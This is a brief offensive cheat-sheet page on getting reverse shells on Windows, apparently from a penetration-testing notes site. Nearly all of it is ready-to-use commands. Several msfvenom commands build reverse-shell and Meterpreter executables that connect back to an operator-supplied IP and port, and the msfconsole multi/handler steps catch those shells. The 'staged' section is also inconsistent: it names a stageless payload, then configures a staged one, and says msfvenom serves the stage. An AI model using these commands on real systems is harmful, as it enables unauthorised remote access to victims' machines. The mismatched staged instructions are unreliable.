 ```yaml
---
title: Windows
parent: Shell (Reverse/Others)
grand_parent: Exploit / Initial Access
layout: default
nav_order: 1
---
```


64 bit:\
`msfvenom --platform Windows -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o win.exe`

32 bit:\
`msfvenom --platform Windows -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o win.exe`

If shell drops immediately, consider using a staged shell.

Staged:\
`msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe`

Staged need to serve stage payload using msfvenom:\
`msfconsole -q`\
`use multi/handler`\
`set payload windows/x64/meterpreter/reverse_https`\
`set lhost IP`\
`set lport PORT`\
`exploit`
